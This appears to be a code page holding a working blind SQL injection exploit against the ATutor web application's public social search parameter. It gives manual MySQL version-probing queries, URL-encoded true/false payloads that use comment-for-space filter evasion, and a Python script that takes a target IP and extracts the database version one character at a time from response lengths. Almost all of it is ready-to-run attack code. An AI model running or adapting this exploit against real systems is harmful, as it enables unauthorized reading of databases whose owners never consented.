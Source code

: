 
MySQL Version Extraction

```
mysql> select/**/version();

select/**/(substring((select/**/version()),1,1))='4';

select/**/(substring((select/**/version()),1,1))='5';

select/**/ascii(substring((select/**/version()),1,1))=52;
select/**/ascii(substring((select/**/version()),1,1))=53;

False Query:
q=test%27)/**/or/**/(select/**/ascii(substring((select/**/version()),1,1)))=52%23

True Query:
q=test%27)/**/or/**/(select/**/ascii(substring((select/**/version()),1,1)))=53%23

```


```
import requests
import sys

def searchFriends_sqli(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        r = requests.get(target)
        content_length = int(r.headers['Content-Length'])
        if (content_length > 20):
            return j
    return None    

def main():
    if len(sys.argv) != 2:
        print("(+) usage: %s <target>"  % sys.argv[0])
        print('(+) eg: %s 192.168.121.103'  % sys.argv[0])
        sys.exit(-1)

    ip = sys.argv[1]

    print("(+) Retrieving database version....")

    # 19 is length of the version() string. This can
    # be dynamically stolen from the database as well!
    for i in range(1, 20):
        injection_string = "test')/**/or/**/(ascii(substring((select/**/version()),%d,1)))=[CHAR]%%23" % i
        extracted_char = chr(searchFriends_sqli(ip, injection_string))
        sys.stdout.write(extracted_char)
        sys.stdout.flush()
    print("\n(+) done!")

if __name__ == "__main__":
    main()

```
